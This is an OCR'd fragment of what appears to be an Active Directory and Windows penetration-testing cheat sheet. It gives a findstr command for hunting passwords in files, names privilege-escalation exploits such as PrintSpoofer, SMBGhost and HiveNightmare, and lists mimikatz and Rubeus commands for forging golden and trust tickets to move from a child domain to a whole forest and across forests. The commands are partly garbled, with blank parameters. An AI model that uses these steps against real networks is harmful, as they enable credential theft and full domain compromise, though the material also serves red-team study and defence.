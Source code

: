     findstr /si ‘password’ *.txt *.xml *.docx

Juicy Potato / Lovely Potato
PrintSpoofer
RoguePotato
SMBGhost CVE-2020-0796
CVE-2021-36934 (HiveNightmare/SeriousSAM)
…
Trust relationship
Child Domain to Forest Compromise – SID Hijacking

    Get-NetGroup -Domain -GroupName “Enterprise Admins” -FullData|select objectsid
        mimikatz lsadump::trust
            kerberos::golden /user:Administrator /krbtgt: /domain: /sid: /sids: /ptt

Forest to Forest Compromise – Trust Ticket

    “lsadump::trust /patch”
    “lsadump::lsa /patch”
        “kerberos::golden /user:Administrator /domain: /sid:
        /rc4: /service:krbtgt /target: /ticket:
        “
            .\Rubeus.exe asktgs /ticket: /service:”Service’s SPN” /ptt

